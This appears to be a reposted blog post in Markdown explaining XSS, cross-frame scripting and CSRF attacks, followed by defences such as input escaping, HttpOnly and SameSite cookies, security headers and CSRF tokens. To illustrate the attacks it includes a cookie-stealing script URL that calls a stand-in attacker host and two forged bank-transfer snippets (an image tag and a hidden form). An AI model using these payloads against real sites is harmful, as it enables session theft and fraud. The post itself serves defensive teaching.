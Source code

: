 ```yaml
---
layout: post
title: Prevent XSS and CSRF attacks on your website
date: 2019-08-19 00:00:00 +0300
description: what are xss and csrf attacks and how can we prevent them? # Add post description (optional)
img: prevent-xss-csrf.png # Add image post (optional)
fig-caption: none # Add figcaption (optional)
tags: [csrf, xss, browser, attack, xfs, security, web, hacking,cookies, website, svg]
---
```


### 1. **What is XSS: Cross-site scripting?**

In case of XSS, the attacker makes the victim's browser execute a script (mostly JavaScript) that has been injected by the attacker while visiting a trusted web site. The attacker has several ways of injecting the JavaScript into a web site that the victim trusts.

XSS doesn't need an authenticated session and can be exploited when the vulnerable website doesn't do the basics of validating or escaping input.

When the server doesn't validate or escape input as a primary control, an attacker can send inputs via request parameters or any kind of client side input fields (which can be cookies, form fields or url params). These can be written back to screen, persisted in database or executed remotely.

Be aware using shorten URLs as you don't know where they can lead! First check where the hidden link leads using unshorten.it. After receiving the final link, check it out on the VirusTotal website. It is also suggested to have it as a browser extension.

### 2. **Reflected XSS (aka Non-Persistent or Type II XSS)**

Reflected attacks are those where the malicious script is reflected by a web server and then executed by the the web browser. In this type of attack a user is tricked into clicking a link, or filling in a form, that has the script hidden in it. This can be achieved by sending an email, or posting the link on a forum.

As the domain that the victim can see in the URL is well known and trusted, the victim won't expect any harm behind it. When this is submitted to the server it will be rejected and reflected back to the browser. Many servers will send the input back in text format so the browser can display the input that was rejected. If this text is a valid script then the browser will execute it as it is coming from a trusted source. The attacker could use the victim's CPU to calculate bitcoins in the browser or could steal the victim's cookie.

```html
https://google.com?query=<script>new Image().src="http://attackerurl.org/storecookie?cookie="+document.cookie;</script>
```
![reflected xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-1.png)

### 2. **Stored XSS (aka Persistent or Type I XSS)**

Besides injecting the script using query parameters, the attacker may also inject the script persistenly into a web site's storage. The storage can be in a database, in a web page component like a message forum, visitor log, comment field, or other element that goes to make up a page to deliver to a user. In case, a forum that doesn't validate the user's input, website could be compromissed by posting something that contains the malicious script. The malicious script is delivered along with the normal web content and the client executes it. Every user of the forum that reads the attacker's post will become a victim.

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-2.png)

### 3. **What is XFS: Cross Frame Scripting?**

Cross-Frame Scripting (XFS) is an attack that combines malicious JavaScript with an iframe that loads a legitimate page in an effort to steal data from an unsuspecting user. This attack is usually only successful when combined with social engineering. An example would consist of an attacker convincing the user to navigate to a web page the attacker controls. The attacker's page then loads malicious JavaScript and an HTML iframe pointing to a legitimate site. Once the user enters credentials into the legitimate site within the iframe, the malicious JavaScript steals the keystrokes.

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a <frame>, <iframe>, <embed> or <object>. Sites can use this to avoid clickjacking attacks, by ensuring that their content is not embedded into other sites.

```html
X-Frame-Options: deny
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://example.com/
```

### 3. **JavaScript in image tags**

Directly injecting JavaScript code in the source attribute of <img> tag is no longer possible on modern browsers.

But SVG is an XML based vector graphic format, therefore it invokes the XML parser in the browser. Moreover, <script> tag is allowed in the SVG, so JavaScript can be embed directly into SVG.

Browsers that support SVG inside <img> tags do not support scripting inside the context. **But you should not  use SVG inside <embed> or <object> tags where scripting is supported by browsers!**

![stored xss attack]({{site.baseurl}}/assets/img/prevent-xss-csrf-3.png)

Allowing SVG inside <img>may be dangerous when:

* An XML parser is used to parse the SVG, whether it is inside the <img> or <object> tag. The parser is certainly tweaked with some parameters to ignore <script> tags in the <img> context. Yet, that is quite ugly, it is blacklisting a tag in a certain context. And blacklisting is poor security.
* <script> is not the only way to achieve execution context in SVG, there are also the onmouseover (and family) events present in SVG. This is again tricky to blacklist.
* The XML parser in browsers did suffer from problems in the past, notable with XML comments around script blocks. SVG may present similar problems.
* SVG has full support for XML namespaces. xlink:href is a completely valid construct in SVG and the browser inside the XML parser context will likely follow it.
Therefore, SVG opens several possible vectors to achieve execution context. And moreover, it is a relatively new technology and therefore not well hardened.

### 3. **What is CSRF: Cross-site request forgery?**

In a CSRF attack, the attacker tries to force/trick you into making a request which you did not intend, making use of the existing victim's context, such as cookies. Every time you interact with website, its server checks the cookie you send with the request so it knows it's you.

The level of the attack is based upon the level of privileges that the victim possessed. Because attacker will use the authentication that has gained in the current session to do the malicious task. This is the reason why this attack termed as Session Riding too.

#### **Using a GET request (rare case)**

CSRF happens in authenticated sessions when the server trusts the user/browser. Let's consider an example when you are logged in into your banking site. An attacker can place a malicious link embedded in another link or zero byte image which can be like:

```html
<img src=yourbanking.com/transfer.do?to_account={attackers_account}&amt=2500>
```
Now, in the background transfer can happen though you clicked this link (of course, if your banking uses GET request for such actions without any confirmation). Depending on the vulnerable web site, using CSRF, attackers can also change your credentials or user profile properties.

#### **Using a POST request (common and most popular case)**

This attack requires the user to click the form button on hacker's website, then the malicious page could just as easily send the request by submitting the form.

```html
<h1>You Are a Winner!</h1>
<form action="http://yourbanking.com/api/account/transfer" method="post">
    <input type=hidden name=to_account value="attacker_id" />
    <input type=hidden name=amount value="1000000" />
    <input type=submit value="Click me to get your reward" />
</form>
```
After submitting the form user could figure out what happened, but it could be too late to revert or discard these changes.

![using a POST request ]({{site.baseurl}}/assets/img/prevent-xss-csrf-4.png)

Moreover, using SSL does not prevent a CSRF attack, because the malicious site can send an "https://" request. Typically, CSRF attacks are possible against web sites that use cookies for authentication, because browsers send all relevant cookies to the destination web site.

### 5. **Difference between XSS and CSRF**

Both these attacks seems to be very similar, as they are client-side attacks and doing quite similar things, enforcing some form of user activity (e.g. clicking a link or visiting a website).

In a cross-site scripting (XSS) attack, the attacker makes you involuntarily execute client-side code, most likely Javascript. In a cross-site request forgery (CSRF) attack, the attacker manipulates you to making a melicoius request to the server which you did not intend. This could be sending you a link that makes you involuntarily perform some action.

XSS is generally more powerful than CSRF because it usually allows the execution of arbitrary script code while CSRF is restricted to a particular action (e.g. changing the password). A successful XSS attack also effectively bypasses all anti-CSRF measures.

### 6. **Protect your website**

#### **Protect against XSS attack**

##### **Escape special characters, validate and sanitize inputs**

> Expect any untrusted data to be malicious. What's untrusted data? Anything that originates from outside the system and you don't have absolute control over so that includes form data, query strings, cookies, other request headers, data from other systems (i.e. from web services) and basically anything that you can't be 100% confident doesn't contain evil things.

> Troy Hunt

**Validating input** is the process of ensuring an application is rendering the correct data and preventing malicious data from doing harm to the site, database, and users. Input validation is especially helpful and good at preventing XSS in forms, as it prevents a user from adding special characters into the fields, instead refusing the request.

**Sanitizing data** is a strong defense, but should not be used alone to battle XSS attacks. Sanitizing user input is especially helpful on sites that allow HTML markup, to ensure data received can do no harm to users as well as your database by scrubbing the data clean of potentially harmful markup, changing unacceptable user input to an acceptable format.

**Escaping data** means taking the data an application has received and ensuring it’s secure before rendering it for the end user. By escaping user input, key characters in the data received by a web page will be prevented from being interpreted in any malicious way. In essence, you're censoring the data your web page receives in a way that will disallow the characters – especially < and > characters – from being rendered, which otherwise could cause harm to the application and/or users. If your page doesn’t allow users to add their own code to the page, a good rule of thumb is to then escape any and all HTML, URL, and JavaScript entities.

##### **HttpOnly flag for cookies**

The purpose of the HttpOnly flag is to make the value of the cookie unavailable from JavaScript, so that it can not be stolen if there is a XSS vulnerability.

Any attempt to access the cookie from client script is strictly forbidden. Of course, this presumes you have:

A modern web browser
A browser that actually implements HttpOnly correctly
The good news is that most modern browsers do support the HttpOnly flag. Regardless, HttpOnly cookies are a great idea, and properly implemented, make common XSS attacks much harder to pull off.

HttpOnly cookies don't make you immune from XSS cookie theft, but they raise the bar considerably. Anyway, a "set it and forget it" setting is pretty secure as all modern browsers implemented client-side HttpOnly cookie security correctly.

##### **Security headers**

The HTTP Content-Security-Policy response header allows web site administrators to control resources the user agent is allowed to load for a given page. With a few exceptions, policies mostly involve specifying server origins and script endpoints. This helps guard against cross-site scripting attacks (XSS).

```html
Content-Security-Policy: default-src https:; script-src https: 'unsafe-eval' 'unsafe-inline'; style-src https: 'unsafe-inline'; img-src https: data:; font-src https: data:; report-uri /csp-report
```
The X-XSS-Protection header is designed to enable the cross-site scripting (XSS) filter built into modern web browsers. This is usually enabled by default, but using it will enforce it.

```html
X-XSS-Protection: 1; mode=block
```

A 0 value disables the XSS Filter. A 1 value enables the XSS Filter. If a cross-site scripting attack is detected, in order to stop the attack, the browser will sanitize the page.

A 1; mode=block value also enables the XSS Filter and rather than sanitize the page, when an XSS attack is detected, the browser will prevent rendering of the page.

#### **Protect against CSRF attack**

##### **Using CSRF-token**

Because of your session is active in the browser and it has your session id, CSRF attack can happend. This is the reason the most popular CSRF protection is having another server supplied unique token generated and appended in the request as a hidden value in every state changing form which is present on the web application. This token, called a CSRF Token or a Synchronizer Token. This unique token is not something which is known to the browser like session id.

Instead of putting the anti-CSRF token in the cookie, the server needs to put it as a hidden parameter in a form. For every request involving some sensitive action, the browser will send this token also along with the request and the server, before performing the action, would verify if the token is the one that it had sent to the browser or not. This additional validation at server will make sure that the attacker manipulated link.

This protects the form against CSRF attacks, because an attacker has no way of performing this sensitive action on behalf of the user, as forging a request will also need to guess the anti-CSRF token. Unless an attacker won't successfully trick a victim into sending a valid request or somehow finds out the random anti-CSRF token itself.

**_This token should be invalidated after some time and after the user logs out. The token have to be unique per action and have to be valid only once. Never share tokens via URLs._**

##### **Using Same-site attribute for cookies**

CSRF attacks are only possible since Cookies are always sent with any requests that are sent to a particular origin (domain and path), which is related to that Cookie. Due to the nature of a CSRF attack, a flag can be set against a Cookie, tuning it into a same-site Cookie. A same-site Cookie is a Cookie which can only be sent, if the request is being made from the same origin that is related to the Cookie being sent. The Cookie and the page from where the request is being made, are considered to have the same origin if the protocol, port (if applicable) and host is the same for both.

When another site tries to request something from the web application, the cookie is not sent. This effectively makes CSRF impossible, because an attacker can not use a user's session from his site anymore.

There are two possible values for the same-site attribute:

* Strict: the cookie is withheld with any cross-site usage. Even when the user follows a link to another website the cookie is not sent.
* Lax: some cross-site usage is allowed. Specifically, if the request is a GET request and the request is top-level. Top-level means that the URL in the address bar changes because of this navigation. This is not the case for iframes, images or XMLHttpRequests.

| request type | html code example | cookie type |
|:------------------:|:--------------------:|:---------------------:|
| link | &lt;a href="..."> | normal, lax |
| prerender | &lt;link rel="prerender" href="..." /> | normal, lax |
| form GET | <form action="..."> | normal, lax |
| form POST | <form method="post" action="..."> | normal |
| iframe | <iframe src=...> | normal |
| image | <img src=...> | normal |
| AJAX | fetch('...') (JavaScript) | normal |

This table shows what cookies are sent with cross-origin requests. As you can see cookies without a same-site attribute (indicated by "normal") are always sent. **Strict cookies are never sent. Lax cookies are only send with a top-level get request.**

As you would expect strict mode gives better security, but breaks some functionality. Links to protected resources won't work from other sites. Even if you are logged in and have access to some resource, your strict cookies won't be sent when coming from another site. With lax mode, this still works, while providing decent security by blocking cross-site post requests.

The same-site attribute is a good method to protect against CSRF attacks, because it seems to the attacker as though you are no longer logged in to the website under attack.

##### **Using Referer, Origin, Host and X-Requested-With headers**

X-Requested-With: XMLHttpRequest HTTP header can prevent CSRF attacks because this header cannot be added to the AJAX request cross domain without the consent of the server via CORS. Without CORS it is not possible to add X-Requested-With to a cross domain XHR request. Only the following headers are allowed cross domain:

* Accept
* Accept-Language
* Content-Language
* Last-Event-ID
* Content-Type

Referer header tells server from where the request has originated. If the request is coming from unauthorized domain, then Referer header will contain that value and server can simply reject that request.

_These headers are great to additional check against CSRF attack, but do not rely only on them._

**Misunderstanding the Same Origin Policy (aka SOP) and what Cross-origin resource sharing (aka CORS) brings to the table**

All the SOP does, is prevent the response from being read by another domain (aka origin). This is irrelevant to whether a CSRF attack is successful or not. The only time the SOP comes into play with CSRF is to prevent any token from being read by a different domain.

CORS does not increase security, it simply allows some exceptions to take place. Some browsers with partial CORS support allow cross site XHR requests (e.g. IE 10 and earlier), however they do not allow custom headers to be appended. In CORS supported browsers the Origin header cannot be set, preventing an attacker from spoofing this.

All of the above has nothing to do with forged requests coming directly from an attacker. Remember, the attacker needs to use the victim's browser for their attack. They need the browser to automatically send its cookies. This cannot be achieved by a direct curl request as this would only be authenticating the attacker in this type of attack scenario (the category known as "client-side attacks").

### **Conclusion**

Both attacks have in common that they are client-side attacks and need some action of the end user, such as clicking on a link or visiting a web site. XSS executes a malicious script in your browser, CSRF sends a malicious request on your behalf.

###### **本文转载自Sergey Podgornyy的[《Prevent XSS and CSRF attacks on your website》](https://blog.larapulse.com/security/prevent-xss-csrf-attacks){:target="_blank"}**